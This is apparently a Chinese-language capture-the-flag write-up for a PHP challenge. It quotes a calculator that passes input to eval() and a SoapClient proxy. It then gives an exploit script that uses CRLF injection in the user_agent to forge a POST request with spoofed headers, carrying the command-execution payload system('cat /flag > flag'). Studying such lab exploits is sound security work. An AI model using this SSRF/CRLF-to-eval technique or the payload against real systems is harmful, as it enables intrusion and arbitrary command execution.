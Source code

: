 ```
if(isset($auth)){
    if (check($auth)===2) {
        if(!preg_match('/^[0-9+\-*\/]+$/', $expression)) {
            die("Invalid expression");
        }else{
            $result=eval("return $expression;");
            file_put_contents("result",$result);
        }
    }else{
        $result=eval("return $expression;");
        file_put_contents("result",$result);
    }
}else{
    exit("Hacker");
}
```

```
#h4d333333.php
<?php
error_reporting(0);
if(!isset($_POST['user'])){
    $user="stranger";
}else{
    $user=$_POST['user'];
}

if (isset($_GET['location'])) {
    $location=$_GET['location'];
    $client=new SoapClient(null,array(
        "location"=>$location,
        "uri"=>"hahaha",
        "login"=>"guest",
        "password"=>"gueeeeest!!!!",
        "user_agent"=>$user."'s Chrome"));

    $client->calculator();

    echo file_get_contents("result");
}else{
    echo "Please give me a location";
}
```

在calculator.php中，对ip的校验使用的是`remote_addr`，这个是无法通过HTTP头进行伪造的

只能通过h4d333333.php对calculator进行请求

相关文章：[利用SoapClient类进行SSRF+CRLF攻击 | Xiaojian Yuan's Homepage (lethe.site)](https://lethe.site/2019/0906/SSRF-CRLF-Attack-by-SoapClient/)

```
<?php
$target = 'http://xxx/xxx.php';
$post_string = 'expression=system("cat /flag > flag");';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'AUTHORIZATION: YWFhYWFhYWFhYWFhZG1pbjppX3dhbnRfdG9fZ2V0STAwX2luTXlUM3N0'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);
```